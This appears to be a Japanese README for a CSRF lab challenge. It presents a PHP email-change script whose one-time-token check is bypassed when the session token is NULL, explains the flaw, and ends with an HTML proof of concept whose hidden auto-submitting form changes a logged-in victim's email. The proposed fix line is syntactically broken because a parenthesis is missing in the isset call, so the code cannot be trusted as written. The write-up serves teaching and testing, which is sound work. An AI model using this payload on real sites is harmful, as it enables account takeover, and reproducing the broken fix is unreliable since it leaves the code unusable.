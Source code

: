 # 問題：間違ったCSRF対策～初級編～
https://blog.tokumaru.org/2018/11/csrf.html

## Run
```
$: make up
$: open http://poc.local.xss.moe
```

## 解説
問題のあるコードは`chgmail.php`。

```php
<?php // chgmail.php メールアドレス変更実行
  session_start();
  if (empty($_SESSION['id'])) {
    die('ログインしてください');
  }
  $id = $_SESSION['id']; // ユーザIDの取り出し
  if ($_POST['token'] !== $_SESSION['token']) { // ワンタイムトークン確認
    die('正規の画面からご使用ください');
  }
  unset($_SESSION['token']); // 使用済みトークンの削除
  $mail = $_POST['mail'];
  $_SESSION['mail'] = $mail;
?>
<body>
<?php echo htmlspecialchars($id, ENT_COMPAT, 'UTF-8'); ?>さんのメールアドレスを<?php
 echo htmlspecialchars($mail, ENT_COMPAT, 'UTF-8'); ?>に変更しました<br>
<a href="mypage.php">マイページ</a>
</body>
```

うち、問題のある箇所は以下の部分。

```php
if ($_POST['token'] !== $_SESSION['token']) { // ワンタイムトークン確認
  die('正規の画面からご使用ください');
}
```

- `$_SESSION['token']`の存在確認を行っていないため、`chgmailform.php`にアクセスしていない状態のログイン済ユーザが`chgmail.php`にアクセスする際、`$_SESSION['token']`の値は`NULL`となる。
- コード中で`$_POST['token']`との比較によってCSRF対策をおこなっているように見えるが、上記の条件を満たす場合は`$_POST['token']`を送信せずにCSRFを行えば`NULL`同士の比較となりチェックをバイパスできる。

## 修正案
```php
if (!isset($_SESSION['token'] || $_POST['token'] !== $_SESSION['token']) { // ワンタイムトークン確認
  die('正規の画面からご使用ください');
}
```

などとすることで、`chgmailform.php`に未アクセスのユーザがCSRFの標的になった場合も正しく判定できる。修正したものに対するPoC：[http://poc.local.xss.moe/secure.html](http://poc.local.xss.moe/secure.html)）

## PoC
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>PoC</title>
</head>
<body>
  <iframe id="frame" src="//chall.local.xss.moe/mypage.php" style="display:none"></iframe>
  <form id="form" method="POST" action="//chall.local.xss.moe/chgmail.php">
    <input type="hidden" name="mail" value="pwned@example.jp">
  </form>
  <script>
    let frame = document.getElementById('frame');

    frame.addEventListener('load', (e) => {
      let form = document.getElementById('form');
      form.submit();
    });
  </script>
</body>
</html>
```

※便宜上iframe経由で`mypage.php`を読み込ませているが実際の攻撃では必ずしも必要ではない。
